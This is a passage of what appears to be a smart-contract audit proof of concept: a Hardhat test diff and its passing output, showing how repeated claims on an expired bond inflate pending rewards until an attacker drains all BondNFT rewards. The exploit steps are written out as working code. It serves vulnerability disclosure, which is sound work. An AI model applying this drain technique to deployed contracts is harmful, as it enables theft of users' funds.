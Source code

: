 ```javascript
+      expect(st.hacker).to.be.closeTo(parseEther(100+700), gwei);
+      expect(st.pending1).to.be.gt(parseEther(3800+1000+1000));
+      expect(st.pending2).to.be.eq(parseEther(0));
+      expect(st.pending3).to.be.gt(parseEther(1000+1000));
+
+      // hack
+      const remainReward = st.bond;
+      let pending3 = st.pending3;
+      let i = 0;
+      for (; remainReward.gt(pending3); i++) {
+        // claim expired bond2 repeatedly
+        await lock.connect(hacker).claim(2);
+        // pending3 keeps increasing
+        pending3 = await bond.pending(3);
+      }
+      console.log(`claim count: ${i}\nremain: ${ethers.utils.formatEther(remainReward)}\npending3: ${ethers.utils.formatEther(pending3)}\n`);
+
+      // send diff, then drain rewards in bond
+      await stabletoken.connect(hacker).transfer(bond.address, pending3.sub(remainReward));
+      await lock.connect(hacker).claim(3);
+      st = await getState();
+      // !! bond is drained !!
+      expect(st.bond).to.be.eq(0);
+      // !! hacker gets all rewards !!
+      expect(st.hacker).to.be.eq(TotalRewards.add(parseEther(700)));
+      expect(st.pending1).to.be.gt(parseEther(3800+1000+1000));
+      expect(st.pending2).to.be.eq(0);
+      expect(st.pending3).to.be.eq(0);
+    });
   });
+
   describe("Withdrawing", function () {
     it("Only expired bonds can be withdrawn", async function () {
       await stabletoken.connect(owner).mintFor(owner.address, ethers.utils.parseEther("100"));
```

Output:

```
  Bonds
    Rewards
claim count: 41
remain: 7900.000000000000000002
pending3: 8055.7342616570405578

      ✓ Drain BondNFT rewards

  1 passing (4s)

```
